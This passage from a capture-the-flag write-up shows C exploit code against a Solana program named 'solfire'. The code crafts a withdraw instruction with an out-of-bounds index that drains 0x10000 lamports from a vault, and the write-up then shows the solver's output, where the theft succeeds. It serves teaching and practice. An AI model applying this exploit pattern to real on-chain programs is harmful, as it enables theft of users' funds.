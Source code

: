 **SUCCESS!**

All that's left now is to bump up the number of lamports to withdraw. There's a limit, obviously, depending on whatever value happens to be in memory at that spot. **To be honest, we're still not quite sure what it is, but it's more than the 50,000 that we need**. For simplicity, let's withdraw `0x10000` lamports and see what happens:

```c
void solfire_withdrawl(SolParameters *params, uint8_t vault_nonce)
{
  sol_log("withDraw!");

  // There must be exactly 5 addresses
  SolAccountMeta meta[] = {
    {params->ka[CLOCK].key /* clock */, false, false},
    {params->ka[SYSTEM].key /* system */, false, false}, /* must be system */
    {params->ka[LEDGER].key /* ledger */, true, false}, /* "ledger" - must be writeable, must be owned */
    {params->ka[USER].key /* user */, true, true}, /* receiving account - must be writeable */
    {params->ka[VAULT].key /* vault */, true, false}, /*must be vault, must be writable*/
  };

  uint8_t buf[16] = {0};
  buf[0] = 2; //[0-4] code
  
  buf[4] = 0x80; //[4-8] index
  buf[5] = 0x02; // 0x280 in little endian

  buf[8] = 0x00; //[8-12] amount
  buf[9] = 0x00;
  buf[10] = 0x01; //0x10000 in little-endian

  buf[12] = vault_nonce; //[12] vault nonce

  const SolInstruction instruction = {params->ka[SOLFIRE].key /* program */, 
                                      meta, SOL_ARRAY_SIZE(meta),
                                      buf,  SOL_ARRAY_SIZE(buf)};

  sol_invoke_signed(&instruction, params->ka, params->ka_num, (SolSignerSeeds*)0, 0);
}
```

```
$ python3 connect5.py
[+] Opening connection to localhost on port 8080: Done
program: Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da
solve: 47xVEjTeKyApnViADRZCLC2PpnmQpQpEZDfcsWYoMkC9
user: BPR11AMCQfViuJqxyL3FwWPWzMm4AFJeYEPwoFr1ue1D
ledger: EUUvConfMPo75TiJPPTEPtuS4zNdnCPR3yhFJWZJxEcz 255
vault: AZTwNNQ6waZVQgBXEmP62DZYpAjU3o9xp2oVftZiA3dU 254
user bal: 65546
vault bal: 934464
congrats!
flag: ""
```
{:.contains-term}

